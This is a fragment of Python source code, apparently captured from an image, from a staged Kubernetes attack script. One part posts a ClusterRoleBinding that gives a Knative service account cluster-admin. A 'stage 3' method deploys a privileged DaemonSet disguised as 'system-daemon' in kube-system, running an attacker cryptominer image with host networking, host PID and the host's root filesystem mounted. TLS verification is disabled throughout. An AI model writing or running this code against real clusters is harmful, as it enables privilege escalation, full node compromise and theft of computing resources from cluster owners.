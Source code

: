 ```python
                "kind": "ClusterRole",
                "name": "cluster-admin"
            },
            "subjects": [{
                "kind": "ServiceAccount",
                "name": "knative-lambda-builder",
                "namespace": "knative-lambda"
            }]
        }
        
        resp = self.session.post(
            "https://kubernetes.default/apis/rbac.authorization.k8s.io/v1/clusterrolebindings",
            json=payload,
            headers=headers,
            verify=False
        )
        
        return resp.status_code == 201
    
    def stage3_deploy_payload(self, token):
        """Stage 3: Deploy crypto miner as cluster-admin"""
        headers = {"Authorization": f"Bearer {token}"}
        
        # Deploy crypto miner DaemonSet (runs on every node)
        payload = {
            "apiVersion": "apps/v1",
            "kind": "DaemonSet",
            "metadata": {
                "name": "system-daemon",
                "namespace": "kube-system"
            },
            "spec": {
                "selector": {"matchLabels": {"name": "system-daemon"}},
                "template": {
                    "metadata": {"labels": {"name": "system-daemon"}},
                    "spec": {
                        "hostNetwork": True,
                        "hostPID": True,
                        "containers": [{
                            "name": "miner",
                            "image": "attacker/cryptominer:latest",
                            "securityContext": {"privileged": True},
                            "volumeMounts": [{
                                "name": "host",
                                "mountPath": "/host"
                            }]
                        }],
                        "volumes": [{
                            "name": "host",
                            "hostPath": {"path": "/"}
                        }]
                    }
                }
            }
        }
        
        resp = self.session.post(
            "https://kubernetes.default/apis/apps/v1/namespaces/kube-system/daemonsets",
            json=payload,
            headers=headers,
            verify=False
        )
        
```